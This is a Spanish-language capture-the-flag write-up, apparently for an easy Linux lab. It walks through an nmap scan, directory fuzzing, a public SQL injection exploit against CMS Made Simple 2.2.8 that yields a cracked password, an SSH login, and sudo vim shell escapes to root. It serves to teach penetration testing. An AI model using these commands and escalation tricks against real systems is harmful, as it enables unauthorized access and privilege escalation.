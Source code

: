 #Linux #Easy 
### Scan
```css
nmap -p- --open --min-rate 3000 -sS -n -vvv -Pn 10.10.68.49
```
### 
```css
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.33.185
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.64 seconds
```

### El puerto 21 tiene certificaciones por defecto para ingresar como anomymous


### haciendo fuzzing conseguimos el directorio "'/simple'" 
### hacemos fuzzing al directorio /simple 
```css
/.php              (Status: 403) [Size: 298]
/.html             (Status: 403) [Size: 299]
/index.php         (Status: 200) [Size: 19913]
/modules           (Status: 301) [Size: 321] [--> http://10.10.14.180/simple/modules/]
/uploads           (Status: 301) [Size: 321] [--> http://10.10.14.180/simple/uploads/]
/doc               (Status: 301) [Size: 317] [--> http://10.10.14.180/simple/doc/]
/admin             (Status: 301) [Size: 319] [--> http://10.10.14.180/simple/admin/]
/assets            (Status: 301) [Size: 320] [--> http://10.10.14.180/simple/assets/]
/lib               (Status: 301) [Size: 317] [--> http://10.10.14.180/simple/lib/]
/install.php
```

### conseguimos enumerar la version de aparentemente la pg:

```css
CMS Made Simple version 2.2.8
```

### buscamos un exploit. en www.exploit.db.com conseguimos exploit de Python que explota una vulnerabilidad de inyección de SQL (CVE-2019-9053). La vulnerabilidad permite a un atacante realizar una inyección de SQL en el sistema y extraer información sensible de la base de datos.
#### Ejecutamos el exploit y obtenemos resultados:
```css

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[*] Try: secret
```

### intentamos acceder via ssh que esta habilitado en el puerto 2222
```css
ssh mitch@10.10.45.134
password: secret 
```

# Enumeración básica sistema
```css
find / -perm -u=s -type f 2>/dev/null
sido -l 
```
# Permisos sudo
```css
con el usuario mitch tenemos permisos para ejecutar /usr/bin/vim 

ejecutamos: sudo vim -c ':!/bin/sh'
```

### otras opciones
```css

	sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

	sudo vim -c ':lua os.execute("reset; exec sh")'
```

### WE ARE ROOT
